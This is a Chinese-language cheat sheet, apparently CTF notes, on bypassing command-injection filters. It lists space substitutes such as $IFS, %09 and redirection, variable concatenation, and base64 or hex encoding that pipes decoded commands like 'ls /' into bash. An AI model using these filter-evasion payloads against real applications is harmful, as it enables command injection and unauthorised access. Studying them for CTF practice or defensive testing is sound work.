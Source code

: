 #### 命令绕过

##### 空格

```
$IFS              

{cat,flag.php}                        --这里把，替换成了空格键

%20                                   --代表space键

\x20                                  --代表space键，eval类中可用

%09                                   --需要php环境，如cat%09flag.php

\x09                                  --代表space键，eval类中可用

${IFS}                                --单纯cat$IFS2,IFS2被bash解释器当做变量名，输不出来结果，加一个{}就固定了变量名，如cat${IFS}flag.php

$IFS$9                                --后面加个$与{}类似，起截断作用，$9是当前系统shell进程第九个参数持有者，始终为空字符串，如cat$IFS2$9flag.php

<                                     --重定向，如cat<flag.php

<>                                    --重定向，如cat<>flag.php
```

##### 字符串拼接绕过

```
a=l;b=s;c=/;$a$b $c
```

定义变量a为l，b为s，c为/，执行命令$a$b $c即ls /

##### base64编码绕过

```
echo MTIzCg==|base64 -d 其将会打印123

echo bHMgLw== | base64 -d | bash 
`echo bHMgLw== | base64 -d`                   ==>三种结果皆为ls /
echo bHMgLw== | base64 -d | sh
```

##### 16进制编码绕过

生成脚本

```
<?php
$a = 'ls /';
echo bin2hex($a);  
?>
```
